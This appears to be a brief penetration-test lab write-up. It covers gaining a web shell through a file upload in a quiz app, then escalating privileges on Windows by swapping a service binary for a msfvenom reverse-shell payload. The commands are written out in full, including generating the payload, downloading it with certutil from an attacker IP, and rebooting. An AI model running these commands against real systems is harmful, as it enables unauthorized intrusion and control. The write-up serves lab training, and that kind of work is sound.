










We have a quiz app here.

Now we can execute the uploaded file here

We have code execution.

We can try php-reverse-shell.php
Then running it we get a shell:


We can try this 
```
searchsploit -x windows/local/48789.txt
```


Verifying this:


Now we can replace the binary with a reverse shell.

We need a x64 reverse shell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.245 LPORT=445 -f exe -o bd.exe
```
Now we can replace the bd.exe binary:
```
move bd.exe bd.service.exe
```

Then start a python server on kali
```
certutil -urlcache -f http://192.168.45.245/bd.exe bd.exe
```
Now transfer and reboot:
```
shutdown /r
```

Now we get a shell:


We got it
